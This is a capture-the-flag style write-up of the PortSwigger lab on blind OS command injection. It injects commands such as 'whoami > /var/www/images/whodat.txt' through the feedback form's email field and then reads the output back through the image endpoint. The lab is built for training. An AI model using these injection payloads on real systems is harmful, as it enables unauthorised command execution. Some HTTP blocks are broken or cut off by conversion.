 # Lab 3 - Blind OS command injection with output redirection

**YouTube video & lab links below:**

[Command Injection - Lab #3 Blind OS command injection with output redirection | Long Version](https://youtu.be/Gf2_UWsYrpM?list=PLuyTk2_mYISK9ywsFZZOT1LuO3Eb7Wq5q)

[Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. 
The output from the command is not returned in the response. 
However, you can use output redirection to capture the output from the command. 
There is a writable folder at: /var/www/images/

The application serves the images for the product catalog from this location. 
You can redirect the output from the injected command to a file in this folder, 
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Target Goal - Exploit the blind command injection and redirect the output from the whoami command to the `/var/www/images`


#### Analysis:

**1. Confirm blind command injection: Email Field**

**2. Check where images are store**

**3. Redirect output to file**

**4. Check if file was created**

<br>

## Solution:
### The vulnerable parameter is the email field field in the feedback form
at this endpoint: `POST /feedback/submit`

```HTTP
POST /feedback/submit HTTP/2
Host: 0a2f007903dd2e578305105c006200aa.web-security-academy.net
Origin: https://0a2f007903dd2e578305105c006200aa.web-security-academy.net

Referer: https://0a2f007903dd2e578305105c006200aa.web-security-
```
email=foo@email.com` & sleep 10 #`&subject


`&name=Hackerman&`

#### use the same command structure as in the previous lesson
and preceed it with a random letter so that it wont pickup the command, makes it easier
to execute, etc....

```shell
||ping+-c+10+127.0.0.1||
```

But here in this lab it's gonna be:
```shell
x||whoami > /var/www/images/whodat.txt||&
```
<br>

### The cmd injection in the email param
be sure to URL encode it

email=foo%40email.com+`%26+whoami+>+/var/www/images/whodat.txt+%23`&subject


Then URL encode it, I used the Decoder tab:


Then the end point containing the .txt file you made is located at:
```HTTP
GET /image?filename=21.jpg
```

It can be any jpg number, that's irrelevant, cause you're gonna change the .jpg file name
to the name of the file you created that contains the output of `whoami` , and that will look like
```HTTP
GET /image?filename=whodat.txt HTTP/2
Host: yourlabid.web-security-academy.net
```

and the response should be
```HTTP
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=CsuBhNTngZrmPSJAreEo9oFnWjh80WCd; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 13

peter-WKMu36
```

**And BOOM !**
you are `peter-WKMu36`

--Done--
